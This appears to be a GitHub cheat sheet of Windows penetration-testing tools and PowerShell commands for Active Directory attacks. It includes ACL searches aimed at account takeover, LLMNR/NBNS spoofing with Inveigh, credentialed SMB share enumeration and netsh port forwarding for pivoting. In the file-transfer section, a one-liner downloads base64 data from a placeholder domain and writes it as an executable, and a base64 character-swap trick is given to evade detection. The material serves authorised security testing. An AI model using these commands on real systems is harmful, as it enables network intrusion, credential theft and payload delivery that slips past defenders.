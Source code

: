 # Windows based Pentesting

## Tools
- Nmap   
  Download https://nmap.org/dist/nmap-7.91-setup.exe   

- **PowerView**   
  Get write accessible shares:   
  `Find-DomainShare -CheckShareAccess`   
  Find accounts which have ACLs for account takeover:   
  `Get-DomainObjectAcl -SearchBase "CN=Users,DC=domain,DC=local" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`   
  
- AccessChk.exe   
  Get write accessible files /folders for specific user on specific directory:   
  `accesschk64.exe -uwdqs johnwayne \\dc01.domain.local\NETLOGON`   

- Crackmapexec   
  Download and setup Python 3 from: https://www.python.org/downloads/windows/   
  Download and setup MS Build Tools for C++ from: https://visualstudio.microsoft.com/de/visual-cpp-build-tools/   
  Open cmd.exe and run:   
  `python -m pip install pipx`   
  `pipx ensurepath`  
  `pipx install crackmapexec`   
  Use CrackMapExec in cmd.exe with e.g.:   
  `cme smb 172.21.11.0/24 -u user1 -p 'password' --shares`   

- Impacket   
  After setting up python, download the impacket repository and unpack it: https://github.com/SecureAuthCorp/impacket   
  Afterwards set up with:   
  `pip install .`   
  `pip install pyReadline`   

- Inveigh   
  PowerShell based Responder: https://github.com/Kevin-Robertson/Inveigh   
  Note: Requires elevated privileges!   
  Example:   
  `Invoke-Inveigh -LLMNR Y -mDNS Y -NBNS Y -SpooferIP 172.10.10.1 -ConsoleOutput Y -HTTP N`   
  
- SSLScan   
  https://github.com/rbsec/sslscan/releases/   
  
- EyeWitness   
  Make screenshots of every HTTP/HTTPS target:   
  `.\EyeWitness.exe -f .\targets_http.txt -o c:\temp\EyeWitness\`   
  Whereas the file targets_http.txt contains all URLs with <protocol>://<IP or hostname>:<port>

- Webserver Directory Bruteforcing   
  Use Get-HTTPStatus from PowerSploit:   
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Get-HttpStatus.ps1   
  `foreach($target in (gc .\targets_http_ip.txt)){ Get-HttpStatus -Target $target -Path .\www_wordlist.txt }`   

## Helpful PowerShell commands and scripts  
### File Transfer
- Download base64 encoded files:   
  `[System.IO.File]::WriteAllBytes("c:\windows\temp\telem.exe",[System.Convert]::FromBase64String((New-Object Net.Webclient).downloadstring("https://XOURDOMAIN.COM")))`   

- convert to base64 and replace A with @ for obfuscation:   
  ```
  $base64string = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\temp\test.exe"))
  $newstring = $base64string -creplace ('A','@') # NOTE: creplace is important because it must be case sensitive!
  $newstring | Out-File C:\Users\vkoch\Desktop\newfile.b64
  ```
- Convert back after download:   
  ```  
  $ByteArray = [System.Convert]::FromBase64String("(Get-Content "C:\Users\username\Downloads\FFPortable.b64") -creplace ('@','A')")
  [System.IO.File]::WriteAllBytes("C:\temp\newfile.exe", $ByteArray)
  ```
  
- Download through proxyserver:   
```
powershell -Command "[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy(); [System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; (New-Object Net.WebClient).DownloadFile('https://github.com/SnaffCon/Snaffler/releases/download/0.9.11/Snaffler.exe', 'snaffler.exe')"
```
Specify TLS:   
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

  
### Recon
- Portscanning on single port without ping test:   
  `New-Object System.Net.Sockets.TCPClient -ArgumentList "hostname.domain.local",3389`   
  
- Gather active user sessions on Windows:   
  Check: https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Invoke-NetSessionEnum.ps1   

- SMB Share Wildcard search. If you find an interesting share which e.g. contains user profiles (e.g. citrix profiles) and you want search for every txt file in every profiles desktop folder. The wildcard in this case replaces the subfolder (and some other levels of directories) where the folder name is the username.    
  ```
  $someshare = "\\hostxy\share$\citrix_profiles"
  $dirs = Get-ChildItem -Path "$someshare\*\Desktop" -Directory
  $dirs | % {get-childitem -Path $_ *.txt} | % {$_.FullName}
  ```   
- Check current users file permissions:   
```
  $files = get-childitem -path c:\some\path\with\lotsoffiles;
  foreach($file in $files){
    $filefullname = $file.FullName;
    $acl = get-acl $filefullname;
    foreach($item in $acl.access){
        if(($item.IdentityReference -like "BUILTIN\Users") -or ($item.IdentityReference -like "Everyone") -or ($item.IdentityReference -like "*$env:username")){
            write-host "+++++++++++++++++++++++++++++++++++++++++++";
            write-host "file: $filefullname";
            $item.FileSystemRights;
        }
    }
}
```   
List all folder permissions of a specific user or group (in this example "BUILTIN\Users" meaning every user): 
```
$FolderPath = Get-ChildItem -Directory -Path "\\computername\share\users"
$Output = @()
ForEach ($Folder in $FolderPath) {
    $Acl = Get-Acl -Path $Folder.FullName
    ForEach ($Access in $Acl.Access) {
if($access.IdentityReference -eq 'BUILTIN\Users'){
$Properties = [ordered]@{'Folder Name'=$Folder.FullName;'Group/User'=$Access.IdentityReference;'Permissions'=$Access.FileSystemRights;'Inherited'=$Access.IsInherited}
$Output += New-Object -TypeName PSObject -Property $Properties
}
}
}
$Output | Out-GridView
```
Translate SID to username:   
`((New-Object System.Security.Principal.SecurityIdentifier("S-1-5-21-xxxx-xxxx-xxxx-xxxx")).Translate( [System.Security.Principal.NTAccount])).value`   


## Port Forwarding on Windows
- Setup netsh based port forwarder:      
  `netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp`   
- Show port forwardings:   
  `netsh interface portproxy show v4tov4`   
- Remove:
  `netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444`   
  
